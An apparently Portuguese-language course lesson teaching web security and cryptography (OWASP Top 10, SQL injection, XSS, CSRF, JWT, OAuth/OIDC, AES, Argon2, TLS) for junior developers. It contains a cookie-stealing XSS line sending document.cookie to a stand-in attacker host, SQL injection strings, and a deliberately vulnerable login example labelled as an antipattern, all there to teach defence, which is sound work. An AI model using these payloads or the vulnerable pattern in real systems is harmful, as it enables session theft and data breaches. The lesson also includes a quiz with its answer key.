


# 🔐 Aula 20 — Segurança Web & Criptografia

> *"Proteja sua órbita. Aprenda a defender suas aplicações contra as principais ameaças web e a proteger dados críticos de ponta a ponta."*

---

## 1. 🚀 Briefing da Missão (Contexto Temático & Realidade de Mercado)

| Metadado do Setor | Especificação |
| :--- | :--- |
| **Galáxia** | Galáxia 4 — Órbita do DevOps & Cloud |
| **ID do Módulo** | `seguranca-criptografia` |
| **Pré-requisitos** | [Aula 17 — Docker & Containerização](./17-docker-containerizacao.md) (`docker`) |
| **Próxima Aula** | [Aula 21 — Observabilidade & Monitoramento](./21-observabilidade-monitoramento.md) (`observabilidade`) |

### 🛸 Analogia do Navegador Cósmico: Os Escudos Defletores e a Sala de Cofres da Nave

Construir uma aplicação rápida, containerizada e escalável na nuvem sem pensar em segurança é como construir um cruzador espacial com motores de dobra, mas deixar as escotilhas destrancadas, escrever a senha do reator num post-it no vidro da cabine e transmitir coordenadas secretas por rádio aberto sem codificação. No espaço aberto da internet pública, sondas automatizadas (*bots*) testam vulnerabilidades conhecidas em **segundos** após o seu servidor ficar online.

**Segurança Web e Criptografia** formam o **sistema multicamadas de escudos defletores e cofres criptográficos** da nave:
* **Defesas Web (OWASP, parametrização, CSP, CSRF tokens):** bloqueiam tiros direcionados às brechas de entrada da aplicação (formulários, URLs, cabeçalhos).
* **Autenticação Moderna (JWT, OAuth 2.0, OIDC):** funciona como um passaporte orbital assinado digitalmente — impossível de falsificar sem a chave privada da autoridade emissora.
* **Criptografia e Hashing (TLS, AES, RSA, Argon2/Bcrypt):** garantem que mesmo se alguém interceptar o sinal no vácuo (rede) ou roubar um disco do banco de dados, os dados secretos e senhas permaneçam matematicamente ilegíveis.

### 💼 A Dor Real que Este Módulo Resolve nas Empresas

Uma única falha de segurança em produção pode destruir uma startup ou gerar multas milionárias (como pela **LGPD** no Brasil e **GDPR** na Europa):

1. **Vazamento de banco de dados inteiro via SQL Injection:** uma única query SQL montada com concatenação de string em um campo de busca permite que um invasor extraia todos os CPFs, e-mails e hashes de clientes.
2. **Sequestro de contas via XSS ou senhas fracas (MD5/SHA-256 simples):** se o banco vazar e as senhas não usarem algoritmos lentos com *salt* (Argon2/Bcrypt), crackers quebram milhões de senhas em minutos usando placas de vídeo e *rainbow tables*.
3. **Roubo de sessão em Wi-Fi público ou tokens mal validados:** sem HTTPS/TLS estrito ou validando JWTs de forma ingênua, atacantes interceptam credenciais em trânsito ou forjam identidades de administradores.
4. **Quebra de confiança com clientes:** empresas perdem contratos corporativos (Enterprise) porque não passam em questionários básicos de segurança (pentests e auditorias OWASP).

---

## 2. 📚 Carga de Conhecimento Completa (Tópico por Tópico)

### 2.1 Falhas de Segurança Mais Comuns Listadas no OWASP Top 10

A **OWASP** (*Open Worldwide Application Security Project*) publica periodicamente o **OWASP Top 10**, o ranking mundial padrão dos riscos mais críticos em aplicações web. Todo Dev Júnior precisa reconhecer pelo menos os principais destaques do ranking (edição 2021, referência consolidada do mercado):

1. **A01 — Broken Access Control (Quebra de Controle de Acesso):** usuário comum consegue acessar `/api/pedidos/999` de outro cliente ou acessar rotas `/admin` só trocando o ID na URL (falha chamada **IDOR** — *Insecure Direct Object Reference*). **Regra:** valide *sempre* no backend se `pedido.userId === req.user.id`!
2. **A02 — Cryptographic Failures (Falhas Criptográficas):** trafegar dados sensíveis sem HTTPS, salvar senhas em texto puro ou com MD5/SHA-1, ou usar chaves secretas fracas/chumbadas no código.
3. **A03 — Injection (Injeção):** enviar dados não confiáveis diretamente para um interpretador — incluindo **SQL Injection**, **NoSQL Injection** (`{ "$gt": "" }`) e **Command Injection**.
4. **A05 — Security Misconfiguration (Configuração Incorreta):** deixar portas abertas, mensagens de erro detalhadas com stack trace em produção, senhas padrão de banco ou cabeçalhos HTTP de segurança ausentes.
5. **A07 — Identification and Authentication Failures (Falhas de Autenticação):** permitir força bruta infinita na tela de login sem *rate limiting*, sessões que não expiram ou tokens mal validados.
6. **A10 — SSRF (Server-Side Request Forgery):** induzir o servidor backend a fazer chamadas HTTP para endereços internos da própria nuvem (ex: acessar o endpoint interno de metadados da AWS `169.254.169.254` a partir de uma URL enviada pelo usuário para buscar uma foto!).

---

### 2.2 Prevenir Ataques Comuns (SQL Injection, XSS, CSRF)

#### 1. SQL Injection (SQLi)
* **Como acontece:** o servidor concatena entrada do usuário direto dentro da string SQL. Se o usuário digitar `' OR '1'='1` no campo de login, altera a lógica da consulta executada pelo banco.
* **Como prevenir:** use **sempre** **Queries Parametrizadas (Prepared Statements)** ou ORMs configurados corretamente (Prisma, Drizzle, TypeORM, SQLAlchemy sem interpolação crua). O driver do banco envia o comando SQL separado dos parâmetros, impedindo que o texto do usuário seja interpretado como código SQL.

#### 2. XSS (Cross-Site Scripting)
* **Como acontece:** o atacante consegue injetar JavaScript malicioso (`<script>fetch('https://atacante.com?c='+document.cookie)</script>`) dentro de uma página renderizada no navegador da vítima (ex: via comentário salvo no banco — *Stored XSS*, ou parâmetro de URL refletido — *Reflected XSS*).
* **Como prevenir:**
  * **Output Encoding / Sanitização:** nunca insira HTML de usuário com `innerHTML` ou `dangerouslySetInnerHTML` sem sanitizar antes (use bibliotecas como **DOMPurify**). React/Vue escapam texto por padrão quando você usa `{variavel}`!
  * **Cookie `HttpOnly`:** cookies marcados com `HttpOnly` **não podem ser lidos por `document.cookie` via JavaScript**, protegendo o token de sessão mesmo se houver um XSS.
  * **Content Security Policy (CSP):** cabeçalho HTTP (`Content-Security-Policy`) dizendo ao navegador de quais domínios confiáveis scripts podem ser executados, bloqueando scripts inline injetados.

#### 3. CSRF (Cross-Site Request Forgery)
* **Como acontece:** o usuário está autenticado no banco dele (com cookie de sessão salvo no navegador). Ele abre outro site malicioso que dispara ocultamente um formulário `POST https://meubanco.com/transferir` — como o navegador envia automaticamente os cookies do domínio destino, o servidor acha que foi um pedido legítimo do usuário!
* **Como prevenir:**
  * **Atributo `SameSite=Lax` ou `SameSite=Strict`** nos cookies de autenticação (impede o navegador de enviar o cookie em requisições disparadas por outros sites).
  * **Anti-CSRF Tokens (Synchronizer Token Pattern):** exigir um token aleatório secreto em um header customizado ou campo oculto que sites terceiros não conseguem ler devido à *Same-Origin Policy*.
  * **Nota:** APIs que usam apenas header `Authorization: Bearer <jwt>` (sem cookies automáticos) são naturalmente imunes a CSRF clássico, mas exigem cuidado redobrado contra XSS caso o token fique no `localStorage`!

---

### 2.3 Autenticação Moderna com JWT, OAuth 2.0 e OpenID Connect

Muitos desenvolvedores confundem **Autenticação** (*quem é você?*) com **Autorização** (*o que você tem permissão para fazer?*), e misturam JWT, OAuth 2.0 e OpenID Connect. Vamos colocar cada peça no seu lugar exato:

1. **JWT (JSON Web Token — RFC 7519):** é um **formato compacto de token** (não um protocolo completo), composto por três partes separadas por ponto (`header.payload.signature`) codificadas em **Base64URL**:
   * **Header:** algoritmo usado (ex: `HS256` ou `RS256`) e tipo (`JWT`).
   * **Payload (Claims):** dados sobre a identidade e permissões (`sub`, `role`, `iat`, `exp`). **ATENÇÃO:** o Payload **NÃO é criptografado** por padrão! Qualquer pessoa pode decodificar o Base64URL e ler o conteúdo — portanto **jamais coloque senhas, CPF ou segredos dentro do JWT**!
   * **Signature (Assinatura):** hash criptográfico calculado sobre `base64(header) + "." + base64(payload)` usando a chave secreta do servidor (HMAC-SHA256) ou chave privada (RSA/ECDSA). Ela garante **integridade e autenticidade**: se alguém alterar 1 bit no payload, a assinatura não bate mais!
   * **Boas práticas com JWT:** mantenha o `exp` (Access Token) curto (ex: 15 minutos), use **Refresh Tokens** armazenados com segurança para renovar sessões, valide explicitamente a lista de algoritmos permitidos no `jwt.verify()` (bloqueando ataques de `alg: none`) e armazene tokens preferencialmente em cookies `HttpOnly; Secure; SameSite`.



2. **OAuth 2.0 (Autorização Delegada):** é o protocolo padrão que permite que um aplicativo de terceiros acesse recursos seus em outro serviço **sem você precisar entregar sua senha**. Exemplo clássico: você autoriza um app de calendário a ler seus eventos no Google Calendar; ele recebe um *Access Token* com escopo limitado (`calendar.readonly`). Em aplicações web/SPA modernas, o fluxo recomendado é **Authorization Code Flow com PKCE**.
3. **OpenID Connect (OIDC — Camada de Identidade sobre o OAuth 2.0):** OAuth 2.0 sozinho foi criado para *autorização*, não dizia de forma padronizada *quem* é o usuário. O **OIDC** resolve exatamente isso adicionando um **ID Token** (um JWT padronizado com `sub`, `name`, `email`) e um endpoint `/userinfo` em cima do OAuth 2.0. Quando você clica em **"Entrar com Google / GitHub"** para fazer login em um site, está usando **OpenID Connect + OAuth 2.0**!

---

### 2.4 Criptografia Simétrica (AES) e Assimétrica (RSA, Curvas Elípticas)

| Característica | Criptografia Simétrica | Criptografia Assimétrica (Chave Pública/Privada) |
| :--- | :--- | :--- |
| **Chaves usadas** | **1 única chave secreta** compartilhada para cifrar e decifrar | **Par de chaves matematicamente ligadas:** Chave Pública (distribui aberto) + Chave Privada (nunca sai do cofre) |
| **Velocidade** | Extremamente rápida (ideal para gigabytes de dados, arquivos, disco, stream) | Muito mais lenta (operações matemáticas pesadas com números grandes) |
| **Desafio** | Como entregar a chave secreta pela internet sem ninguém interceptar? | Resolve a troca inicial de segredo e permite **Assinatura Digital** |
| **Algoritmos padrão atuais** | **AES-256-GCM** (ou ChaCha20-Poly1305) | **RSA** (2048/4096 bits) e **Curvas Elípticas — ECC** (Ed25519 / P-256 — chaves menores e mais rápidas) |
| **Uso real típico** | Criptografar colunas sensíveis no banco, discos, tráfego de sessão TLS após handshake | Handshake inicial do TLS, certificados HTTPS, chaves SSH, assinatura de JWT (RS256/ES256) |

> [!TIP]
> **Por que AES-GCM é melhor que AES-ECB ou CBC puro?** O modo **GCM (Galois/Counter Mode)** fornece **Criptografia Autenticada (AEAD)**: além de esconder o dado (confidencialidade), gera uma *Authentication Tag* que detecta automaticamente se o texto cifrado foi adulterado em trânsito ou no banco!

---

### 2.5 Hashing Robusto para Armazenar Senhas de Usuários (Bcrypt, Argon2)

Primeiro, grave esta regra de ouro: **Criptografia é bidirecional (dá para descriptografar); Hashing é unidirecional (só vai em uma direção — não se recupera o texto original)**. Você **NUNCA** deve criptografar senhas de usuários (pois se a chave de criptografia vazar, todas as senhas são reveladas); você deve armazenar um **Hash de Senha**!

Mas **atenção**: algoritmos de hash rápidos como **MD5**, **SHA-1** e até **SHA-256** são **péssimos para senhas**! Por quê? Uma GPU moderna calcula **bilhões de hashes SHA-256 por segundo**, quebrando senhas comuns instantaneamente — e se dois usuários tiverem a senha `"123456"`, gerarão o mesmo hash (vulnerável a *Rainbow Tables*).

Para senhas, precisamos de funções de derivação de chave **propositalmente lentas**, com **Salt aleatório por usuário** (evita hashes idênticos para senhas iguais) e **fator de custo ajustável**:

* **Argon2 (especialmente a variante `Argon2id`):** vencedor da *Password Hashing Competition* e recomendação **#1 da OWASP atual**. Além de exigir tempo de CPU (*iterations*), exige uma quantidade configurável de memória RAM (*memory cost*), tornando ataques massivos usando placas de vídeo (GPU) e hardware especializado (ASIC) extremamente caros.
* **Bcrypt:** padrão veterano extremamente sólido e amplamente suportado. Possui limite histórico de **72 bytes** na entrada da senha (cuidado ao validar senhas gigantes!) e fator de custo (`saltRounds` de 10 a 12+ em servidores atuais).

---

### 2.6 Implementar HTTPS e Configurar Certificados TLS de Forma Segura

O protocolo **HTTP** trafega tudo em texto aberto — qualquer roteador no caminho (Wi-Fi de cafeteria, operadora, proxy) lê cabeçalhos, senhas e tokens JWT. O **HTTPS** envolve o HTTP dentro de uma camada criptografada chamada **TLS (Transport Layer Security)** (sucessora do antigo SSL, já obsoleto e inseguro).

#### Como o TLS Combina Criptografia Assimétrica + Simétrica na Prática



**Boas práticas obrigatórias de TLS em produção:**
1. **Use certificados válidos e renovação automática:** hoje em dia é gratuito automatizar certificados TLS com **Let's Encrypt** (via Certbot, Caddy, Traefik ou AWS ACM). Nunca ignore erros de certificado em produção.
2. **Desative versões antigas:** habilite apenas **TLS 1.2** e preferencialmente **TLS 1.3** (mais rápido no handshake e remove cifras inseguras). Desative SSLv3, TLS 1.0 e TLS 1.1.
3. **Ative HSTS (`Strict-Transport-Security`):** instrui o navegador a **nunca** mais tentar acessar seu domínio via HTTP sem criptografia durante meses, bloqueando ataques de *SSL Stripping*.
4. **Redirecione HTTP (porta 80) → HTTPS (porta 443)** automaticamente no Proxy Reverso / Load Balancer.

---

## 3. 💻 Mão no Código (Jeito Iniciante vs. Padrão Profissional)

### ❌ Jeito Iniciante (Antipadrão Comum)

```javascript
// ❌ ANTIPADRÃO CRÍTICO: SQL Injection, hash SHA-256 rápido sem salt, JWT fraco e erro verboso!
const crypto = require("node:crypto");
const jwt = require("jsonwebtoken");

app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  // ❌ VULNERÁVEL A SQL INJECTION: concatenação direta na query!
  const query = `SELECT id, email, password_hash, role FROM users WHERE email = '${email}'`;
  const result = await db.query(query);
  const user = result.rows[0];

  // ❌ PÉSSIMO PARA SENHAS: SHA-256 é rápido demais e não tem salt único!
  const fastHash = crypto.createHash("sha256").update(password).digest("hex");

  if (!user || user.password_hash !== fastHash) {
    // ❌ Revela detalhes demais ou vaza stack se der erro
    return res.status(401).json({ error: "Senha incorreta para este e-mail" });
  }

  // ❌ Segredo fraco e hardcoded no código-fonte + token sem expiração!
  const token = jwt.sign({ id: user.id, role: user.role }, "123456");

  // ❌ Retorna token no body para o front guardar no localStorage (vulnerável a XSS)
  res.json({ token });
});
```

### ✅ Padrão Profissional (SQL Parametrizado + Argon2id/Bcrypt + JWT Seguro + Cookie HttpOnly + AES-256-GCM + Headers TLS)

```javascript
// security-auth.js (Exemplo completo com Express, pg, argon2, jsonwebtoken, helmet)
import express from "express";
import helmet from "helmet";
import crypto from "node:crypto";
import argon2 from "argon2";
import jwt from "jsonwebtoken";
import { Pool } from "pg";

const app = express();
const pool = new Pool({ connectionString: process.env.DATABASE_URL });

// Chave secreta forte injetada por variável de ambiente (mínimo 256 bits)
const JWT_SECRET = process.env.JWT_SECRET;
if (!JWT_SECRET || JWT_SECRET.length < 32) {
  throw new Error("JWT_SECRET ausente ou muito curto (use >= 32 caracteres).");
}

// ✅ Helmet configura cabeçalhos de defesa contra XSS, Clickjacking e impõe HSTS (HTTPS)
app.use(
  helmet({
    contentSecurityPolicy: {
      directives: {
        defaultSrc: ["'self'"],
        scriptSrc: ["'self'"], // Bloqueia scripts inline maliciosos (mitiga XSS)
      },
    },
    strictTransportSecurity: {
      maxAge: 31536000, // 1 ano de HSTS
      includeSubDomains: true,
    },
  })
);
app.use(express.json({ limit: "100kb" })); // Limita payload contra abuso de memória

// ==============================================================================
// 1. CADASTRO COM HASHING ROBUSTO (Argon2id com salt automático)
// ==============================================================================
app.post("/register", async (req, res) => {
  const { email, password } = req.body;

  if (typeof email !== "string" || typeof password !== "string" || password.length < 12) {
    return res.status(400).json({ error: "E-mail válido e senha com mínimo 12 caracteres são obrigatórios." });
  }

  // ✅ Argon2id gera salt criptográfico aleatório embutido automaticamente e consome memória
  const passwordHash = await argon2.hash(password, {
    type: argon2.argon2id,
    memoryCost: 65536, // 64 MiB
    timeCost: 3,
    parallelism: 1,
  });

  // ✅ Query Parametrizada ($1, $2): impossível realizar SQL Injection!
  await pool.query(
    "INSERT INTO users (email, password_hash, role) VALUES ($1, $2, $3)",
    [email.toLowerCase().trim(), passwordHash, "user"]
  );

  return res.status(201).json({ message: "Conta criada com segurança." });
});

// ==============================================================================
// 2. LOGIN SEGURO + JWT + COOKIE HttpOnly/SameSite
// ==============================================================================
app.post("/login", async (req, res) => {
  const { email, password } = req.body;
  if (typeof email !== "string" || typeof password !== "string") {
    return res.status(400).json({ error: "Credenciais inválidas." });
  }

  // ✅ Query Parametrizada ($1)
  const { rows } = await pool.query(
    "SELECT id, email, password_hash, role FROM users WHERE email = $1",
    [email.toLowerCase().trim()]
  );
  const user = rows[0];

  // ✅ Mensagem genérica evita enumeração de e-mails cadastrados
  if (!user || !(await argon2.verify(user.password_hash, password))) {
    return res.status(401).json({ error: "E-mail ou senha inválidos." });
  }

  // ✅ JWT com algoritmo explícito, tempo de vida curto e sem dados sensíveis
  const accessToken = jwt.sign(
    { sub: String(user.id), role: user.role },
    JWT_SECRET,
    { algorithm: "HS256", expiresIn: "15m", issuer: "academia-galactica-api" }
  );

  // ✅ Cookie protegido: HttpOnly (imune a roubo via JS/XSS), Secure (só HTTPS), SameSite=Lax (mitiga CSRF)
  res.cookie("access_token", accessToken, {
    httpOnly: true,
    secure: process.env.NODE_ENV === "production",
    sameSite: "lax",
    maxAge: 15 * 60 * 1000,
  });

  return res.status(200).json({ message: "Autenticado com sucesso." });
});

// ==============================================================================
// 3. MIDDLEWARE DE VERIFICAÇÃO ESTRITA DE JWT
// ==============================================================================
function requireAuth(req, res, next) {
  const token = req.headers.authorization?.replace("Bearer ", "");
  if (!token) return res.status(401).json({ error: "Não autenticado." });

  try {
    // ✅ Whitelist estrita de algoritmo impede ataque 'alg: none' ou confusão de chave pública
    const payload = jwt.verify(token, JWT_SECRET, {
      algorithms: ["HS256"],
      issuer: "academia-galactica-api",
    });
    req.user = payload;
    next();
  } catch {
    return res.status(401).json({ error: "Token inválido ou expirado." });
  }
}

// ==============================================================================
// 4. CRIPTOGRAFIA SIMÉTRICA AUTENTICADA (AES-256-GCM) PARA DADOS SENSÍVEIS
// ==============================================================================
// Use apenas para dados que o sistema PRECISA recuperar em claro depois (ex: token OAuth de terceiro)
export function encryptSecret(plaintext, hexKey32Bytes) {
  const key = Buffer.from(hexKey32Bytes, "hex"); // 32 bytes = 256 bits
  const iv = crypto.randomBytes(12); // Vetor de inicialização único por operação (96 bits no GCM)
  const cipher = crypto.createCipheriv("aes-256-gcm", key, iv);

  const encrypted = Buffer.concat([cipher.update(plaintext, "utf8"), cipher.final()]);
  const authTag = cipher.getAuthTag(); // Garante integridade contra adulteração

  return `${iv.toString("hex")}:${authTag.toString("hex")}:${encrypted.toString("hex")}`;
}

export function decryptSecret(cipherBundle, hexKey32Bytes) {
  const [ivHex, tagHex, dataHex] = cipherBundle.split(":");
  const key = Buffer.from(hexKey32Bytes, "hex");
  const decipher = crypto.createDecipheriv("aes-256-gcm", key, Buffer.from(ivHex, "hex"));
  decipher.setAuthTag(Buffer.from(tagHex, "hex"));

  return Buffer.concat([
    decipher.update(Buffer.from(dataHex, "hex")),
    decipher.final(),
  ]).toString("utf8");
}
```

---

## 4. 🛠️ Laboratório de Voo (Exercício Prático Guiado)

**Duração estimada:** 45–60 minutos  
**Missão:** Simular um ataque real de SQL Injection e quebra de JWT em um endpoint inseguro local, e depois blindar o código com queries parametrizadas, Argon2/Bcrypt e verificação estrita de token + inspeção de certificado TLS.

### Passo a Passo Reproduzível

1. **Crie o projeto do laboratório:**
   ```bash
   mkdir lab-seguranca-orbital && cd lab-seguranca-orbital
   npm init -y
   npm install express helmet argon2 jsonwebtoken
   ```
2. **Simule a vulnerabilidade de SQLi (em memória/SQLite ou Postgres) e teste o ataque:**
   * Crie um script `test-sqli.mjs` usando `node:sqlite` (nativo no Node 22+) ou SQLite em memória simulando uma query concatenada `SELECT * FROM users WHERE email = '${email}'`.
   * Passe `email = "' OR '1'='1' --"` e comprove que a query retorna o primeiro usuário do banco sem conhecer o e-mail!
   * Em seguida, troque para statement parametrizado (`db.prepare("SELECT * FROM users WHERE email = ?").get(email)`) e confirme que o ataque retorna vazio (`undefined`).
3. **Compare hashes de senha na prática:**
   * Rode um pequeno script Node comparando o tempo para gerar 100 hashes em `crypto.createHash('sha256')` (~1 milissegundo!) contra 10 hashes em `argon2.hash(...)` (~500–1000 milissegundos intencionais!).
   * Gere dois hashes da mesma senha `"orbita123"` com `argon2.hash()` e observe que as duas strings geradas são **totalmente diferentes** por causa do *salt* aleatório embutido.
4. **Inspecione um JWT ao vivo no terminal ou em `jwt.io`:**
   * Gere um token com `jwt.sign({ sub: "42", role: "user", cpfSecreto: "123.456.789-00" }, "segredo_super_forte_32_caracteres_")`.
   * Decodifique a parte do meio (Payload) apenas com Base64 no Node:
     ```bash
     node -e "console.log(Buffer.from('COLE_O_PAYLOAD_AQUI', 'base64url').toString('utf8'))"
     ```
   * Veja que `cpfSecreto` aparece **totalmente legível sem precisar da chave secreta**! Depois tente alterar `"role": "admin"` na string do token e rodar `jwt.verify()`, comprovando o erro `JsonWebTokenError: invalid signature`.
5. **Inspecione uma cadeia TLS real pela linha de comando:**
   ```bash
   openssl s_client -connect github.com:443 -tls1_3 < /dev/null 2>/dev/null | head -n 25
   ```
   Observe a versão negociada (`TLSv1.3`), a cifra simétrica escolhida e o certificado digital assinado pela Autoridade Certificadora.

### ✅ Critérios de Domínio
- [ ] Reproduziu e corrigiu SQL Injection trocando interpolação de string por query parametrizada.
- [ ] Comprovou que o payload de um JWT padrão é apenas Base64URL legível e nunca deve guardar segredos.
- [ ] Implementou hashing de senhas com `argon2id` ou `bcrypt` (nunca SHA-256/MD5).
- [ ] Validou JWT exigindo algoritmo explícito (`algorithms: ['HS256']`) e expiração (`exp`).

---

## 5. 🎯 Resolução Comentada do Teste de Ignição (Quest Oficial)

> **Pergunta Oficial (`data.js`):**  
> *"Qual mecanismo garante que as informações contidas em um JSON Web Token (JWT) não foram alteradas após o token ser emitido?"*
>
> **A)** A criptografia simétrica obrigatória do corpo (Payload) do token.  
> **B)** A assinatura digital no rodapé do token, criada a partir do cabeçalho e payload usando uma chave secreta privada do servidor.  
> **C)** O fato de que os dados do JWT são apagados do navegador a cada 5 minutos automaticamente.  
> **D)** A verificação visual feita pelo usuário ao abrir o arquivo do token.

### 🏆 Gabarito Oficial: **Alternativa B**

#### ✅ Por que a Alternativa B está correta?
Um JWT assinado (JWS — *JSON Web Signature*) possui a estrutura `header.payload.signature`. Quando o servidor emite o token, ele codifica o cabeçalho e o payload em Base64URL e calcula uma **assinatura criptográfica** (por exemplo via HMAC-SHA256 com chave secreta simétrica ou RSA/ECDSA com chave privada assimétrica) sobre os dois primeiros blocos. Se um atacante tentar modificar `role: "user"` para `role: "admin"` no payload e reenviar o token, o servidor recalcula/verifica a assinatura usando sua chave secreta/pública e detecta imediatamente que a assinatura do rodapé não bate, rejeitando o token.

#### ❌ Por que as demais estão incorretas?
* **Alternativa A (Errada):** Por padrão, um JWT tradicional (JWS) **não** criptografa o payload — ele apenas o codifica em Base64URL (qualquer pessoa pode ler o JSON!). Existe uma especificação separada chamada JWE (*JSON Web Encryption*) para tokens criptografados, mas ela é opcional e não é o mecanismo padrão que garante integridade do JWT comum.
* **Alternativa C (Errada):** O navegador não apaga tokens JWT automaticamente a cada 5 minutos; a validade temporal depende da claim `exp` verificada pelo servidor (e/ou `Max-Age` caso esteja em cookie), o que controla expiração, não adulteração.
* **Alternativa D (Errada):** Usuários finais não verificam arquivos JWT visualmente; a validação matemática é feita exclusivamente de forma programática no backend antes de autorizar a requisição.

---

## 6. 🎤 Kit de Apresentação (Como Dar Aula / Apresentar Este Módulo)

### 🎙️ Pitch Feynman de 2 Minutos (Script Pronto para Falar)

> "Quando você abre uma loja ou API na internet, não está apenas conversando com clientes honestos — existem milhares de robôs varrendo a web o tempo inteiro procurando portas destrancadas. A boa notícia é que a maioria esmagadora dos ataques famosos acontece por descuidos conhecidos e evitáveis, listados no OWASP Top 10.
>
> Pense na segurança em três escudos. O primeiro escudo protege as entradas da aplicação: nunca concatenar texto do usuário dentro de um SQL (usando queries parametrizadas para bloquear SQL Injection), nunca renderizar HTML cru de terceiros (bloqueando XSS) e usar cookies `SameSite` e tokens anti-CSRF para ninguém disparar ações em nome de um usuário logado.
>
> O segundo escudo é a identidade. Quando você loga, o servidor não guarda sua senha original no banco: ele passa a senha por um algoritmo propositalmente lento e com tempero aleatório chamado salt — como Argon2id ou Bcrypt — guardando apenas um hash irreversível. Depois, para você navegar autenticado ou fazer 'Entrar com Google' via OAuth 2.0 e OpenID Connect, recebemos um passaporte chamado JWT. E aqui vai o segredo que muita gente erra: o conteúdo do JWT é aberto para leitura em Base64! O que impede alguém de falsificar o cargo de 'admin' dentro dele é a assinatura criptográfica no final do token, feita com a chave privada do servidor.
>
> Por fim, o terceiro escudo protege os dados na rede e no disco: o HTTPS/TLS usa criptografia assimétrica no aperto de mão inicial para confirmar quem é o servidor e combinar rápido uma chave simétrica AES-256, garantindo que ninguém no Wi-Fi da cafeteria leia seus pacotes."

### 🖼️ Roteiro de Slides (6 Slides)

| Slide | Título do Slide | Bullets-Chave | Sugestão Visual |
| :--- | :--- | :--- | :--- |
| **1** | **A Nave no Espaço Aberto (OWASP Top 10)** | • Por que segurança não é "opcional para depois"<br>• Broken Access Control (IDOR), Injection e Crypto Failures<br>• Defesa em profundidade (múltiplas camadas) | Escudo em camadas concêntricas ao redor da aplicação |
| **2** | **Os 3 Ataques Clássicos & Suas Defesas** | • SQLi: concatenação vs. Prepared Statements (`$1`)<br>• XSS: scripts injetados vs. Escaping + CSP + `HttpOnly`<br>• CSRF: requisições forjadas vs. `SameSite` + Tokens | Três colunas comparando "Como o ataque entra" vs. "Como bloqueamos" |
| **3** | **Identidade: JWT, OAuth 2.0 e OpenID Connect** | • Autenticação (quem é) vs. Autorização (o que pode)<br>• Anatomia do JWT (`Header.Payload.Signature`)<br>• OAuth 2.0 (acesso delegado) + OIDC (ID Token) | Diagrama colorido das 3 partes de um JWT + fluxo de login social |
| **4** | **Criptografia Simétrica vs. Assimétrica** | • Simétrica (AES-256-GCM): mesma chave, ultra rápida<br>• Assimétrica (RSA / ECC): par pública + privada<br>• Como trabalham juntas no mundo real | Desenho de cadeado com 1 chave igual vs. cadeado aberto + chave privada |
| **5** | **Senhas em Repouso: Por que SHA-256 Falha** | • Criptografia vs. Hashing unidirecional<br>• GPUs quebram bilhões de SHA-256/seg<br>• Salt + Custo de CPU e Memória: **Argon2id** e **Bcrypt** | Velocímetro comparando bilhões de hashes/s (SHA-256) vs. poucos/s (Argon2) |
| **6** | **HTTPS & TLS: Privacidade em Trânsito** | • Como ocorre o TLS Handshake (Certificado + CA)<br>• TLS 1.3 + HSTS (`Strict-Transport-Security`)<br>• Renovação gratuita e automática (Let's Encrypt) | Diagrama de sequência resumido do TLS Handshake |

### ⚡ Roteiro de Demo Ao Vivo (3 Minutos)

1. **Minuto 0:00 – 1:00 (Decodificando um JWT ao vivo):** cole um JWT real no [jwt.io](https://jwt.io/) (ou no terminal com `base64 -d`) mostrando que o Payload fica 100% visível sem senha nenhuma — quebrando o mito de que "JWT é criptografado". Depois mude `"user"` para `"admin"` no payload e mostre imediatamente o aviso **"Invalid Signature"**!
2. **Minuto 1:00 – 2:00 (SQL Injection em 30 segundos):** execute o endpoint vulnerável passando `' OR '1'='1` e veja a lista de usuários vazar; troque para a versão parametrizada com `$1` e mostre o ataque falhando limpo.
3. **Minuto 2:00 – 3:00 (Argon2id vs. SHA-256):** rode um script Node gerando hashes da mesma senha duas vezes: mostre que SHA-256 gera sempre o mesmo hash em microssegundos, enquanto Argon2id leva dezenas de milissegundos e gera hashes distintos toda vez graças ao *salt*.

### ❓ Perguntas Difíceis da Plateia

1. **"Se eu usar um ORM moderno como Prisma ou TypeORM, estou 100% imune a SQL Injection?"**
   * **Resposta segura:** *"Na maioria das operações comuns via API do ORM (`prisma.user.findMany({ where: { email } })`), sim, porque o ORM parametriza os valores automaticamente. Porém, todo ORM oferece escapes para SQL bruto — como `$queryRawUnsafe` ou `.query()` — e se você concatenar variáveis de usuário dentro dessas chamadas brutas ou passar objetos de filtro não validados (permitindo operadores inesperados), a vulnerabilidade volta! Validação de schema com Zod/Joi + evitar SQL interpolado continua obrigatória."*
2. **"Onde é mais seguro guardar o JWT no frontend: `localStorage` ou `Cookie HttpOnly`?"**
   * **Resposta segura:** *"Em aplicações web tradicionais, **`Cookie HttpOnly; Secure; SameSite=Lax` é mais seguro contra roubo de token**, porque o JavaScript (e portanto qualquer script malicioso de XSS) não consegue ler `document.cookie` para roubar o JWT. O tradeoff é que cookies são enviados automaticamente, então exigem proteção contra CSRF (`SameSite` + CSRF token caso faça requisições cross-site). Já `localStorage` fica imune a CSRF clássico, mas qualquer biblioteca de terceiros comprometida ou brecha de XSS lê todos os tokens instantaneamente."*

---

## 7. 💼 Radar do Mercado de Trabalho (Foco Dev Júnior)

### 🎯 3 Perguntas Reais de Entrevista Técnica Júnior

